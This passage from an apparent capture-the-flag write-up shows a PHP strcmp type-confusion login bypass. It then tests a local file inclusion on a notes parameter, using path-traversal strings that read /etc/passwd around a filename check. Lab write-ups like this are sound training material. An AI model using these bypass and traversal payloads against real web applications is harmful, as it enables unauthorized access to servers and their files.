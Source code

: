 

If I pass in an array as one of the strings, PHP fails:



    php > echo strcmp(array(), "admin");
    PHP Warning:  strcmp() expects parameter 1 to be string, array given in php shell code on line 1



However, it is actually returning a NULL, and if that NULL is then
compared to 0, it evaluates true:



    php > if (strcmp(array(), "admin") == 0) { echo "oops"; }
    PHP Warning:  strcmp() expects parameter 1 to be string, array given in php shell code on line 1
    oops



### Enumerate manage.php

On login, I'm redirected to `manage.php`, as shown above. In addition to
the home button which just shows the under construction image, there's a
Notes button which just adds `?notes=files/ninevehNotes.txt` to the same
PHP page and displays this text under the image:

![](/img/image-20200411063735004.png)

The login page with hardcoded username and password is likely what I
bypassed with type confusion. The secret folder reference is
interesting. I'll come back to that. And the db interface is something
I've already exploited.

### LFI POC

Anytime I see a url that seems to give a file path as an argument, I
want to poke at it for local file include (especially now since that's
what I need to get RCE).

I tried a handful of things to get a feel for what was going on:

  notes parameter                                              Error Message
  ------------------------------------------------------------ ------------------------------------------------------------------------------------------------------------------------------------------
  `ninevehNotes.txt`                                           No error, displays note
  `/etc/passwd`                                                No Note is selected.
  `../../../../../../../../../../etc/passwd`                   No Note is selected.
  `ninevehNotes`                                               Warning: include(files/ninevehNotes): failed to open stream: No such file or directory in /var/www.md/department/manage.php on line 31
  `ninevehNote`                                                No Note is selected.
  `files/ninevehNotes/../../../../../../../../../etc/passwd`   File name too long.
  `files/ninevehNotes/../../../../../../../etc/passwd`         The contents of `/etc/passwd`
  `/ninevehNotes/../etc/passwd`                                The contents of `/etc/passwd`
